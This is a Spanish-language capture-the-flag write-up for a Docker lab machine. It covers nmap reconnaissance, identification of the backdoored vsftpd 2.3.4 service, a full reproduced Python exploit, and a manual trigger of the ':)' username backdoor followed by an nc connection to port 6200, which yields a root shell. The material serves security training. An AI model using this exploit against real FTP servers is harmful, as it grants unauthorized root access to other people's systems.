 ## LEVANTAMOS EL DOCKER 

Una vez levantado el docker nos dice que la ip de la máquina victima es :
```bash
172.17.0.2
```
comprobamos si tenemos trazabilidad con la misma lanzando un ping

```bash
 ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.034 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.034/0.034/0.034/0.000 ms
```

Nos dice que se ha transmitido un paquete, recibido uno y perdido cero, tenemos trazabilidad

## FASE DE RECONOCIMIENTO
 Con nmap vamos a ver los puertos que tiene abiertos, los servicios que corren en los mismos y la versión para ver si hay alguna vulnerabilidad

 ```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Vemos un puerto 21 que corre ftp con su versión "vsftpd 2.3.4", al ver que se ha lanzado el script ftp-anom y
su respuesta  got code 500 "OOPS: cannot change directory:/var/ftp" me hace sospechar que esta versión puede ser vulnerable.


## FASE INTRUSIÓN

Hago una busqueda rápida y encuentro este exploit para esa version:
```bash
https://github.com/Hellsender01/vsftpd_2.3.4_Exploit/blob/main/exploit.py
```
```bash
#!/usr/bin/python3

from pwn import *
from sys import exit
from time import sleep

class ExploitFTP:
	def __init__(self,ip,port=21):
		self.ip = ip
		self.port = port
		self.p = log.progress("")

	def trigger_backdoor(self):
		self.p.status("Checking Version...")
		io = remote(self.ip,self.port)
		io.recvuntil(b"vsFTPd ")
		version = (io.recvuntil(b")")[:-1]).decode()
		if version != "2.3.4":
			self.p.failure("Version 2.3.4 Not Found!!!")
			exit()
		else:
			self.p.status("Triggering Backdoor....")
			io.sendline(b"USER hello:)")
			io.sendline(b"PASS hello123")
			io.close()

	def get_shell(self):
		self.p.status("Connecting To Backdoor...")
		sleep(1)
		io = remote(self.ip, 6200)
		self.p.success("Got Shell!!!")
		io.interactive()
		io.close()

if __name__ == "__main__":
	if len(sys.argv) < 2 or len(sys.argv) > 3:
		error(f"Usage: {sys.argv[0]} IP PORT(optional)")

	if len(sys.argv) == 3:
		exploit = ExploitFTP(sys.argv[1],sys.argv[2])
	else:
		exploit = ExploitFTP(sys.argv[1])

	exploit.trigger_backdoor()
	exploit.get_shell()
```

vamos a explicar un poco lo que hace

En esta parte:
```
else:
    self.p.status("Triggering Backdoor....")
    io.sendline(b"USER hello:)")
    io.sendline(b"PASS hello123")
    io.close()
```

Envia un usuario malicioso: "hello:)" y un pass: "hello123" y en teoría abre un backdoor

y en esta parte:

```
def get_shell(self):
    self.p.status("Connecting To Backdoor...")
    sleep(1)
    io = remote(self.ip, 6200)  # Se conecta al puerto 6200
    self.p.success("Got Shell!!!")
    io.interactive()
    io.close()
```
 Se conecta al puerto 6200 que es dónde ha abierto la backdoor, vamos a hacerlo de forma manual

 nos conectamos por ftp:
 ```bash
ftp 172.17.0.2
```
introducimos el user:
```bash
hello:)
```
y luego el pass
```bash
hola123
```
hacemos de nuevo un escaneo de puertos para ver si está el 6200 abierto:
```bash
sudo nmap -sS -Pn --min-rate 5000 -p- --open 172.17.0.2
```
```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
6200/tcp open  lm-x
```
En teoria nos ha abierto el backdoorr en el puerto 6200 y nos vamos a intentar conectar con nc
```bash
 nc 172.17.0.2 6200
```
 probamos si la conexión tiene exito:
 ```bash
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
y estamos dentro como root una máquina sencilla que nos recuerda que hay que mirar siempre las vulnerabilidades de las versions




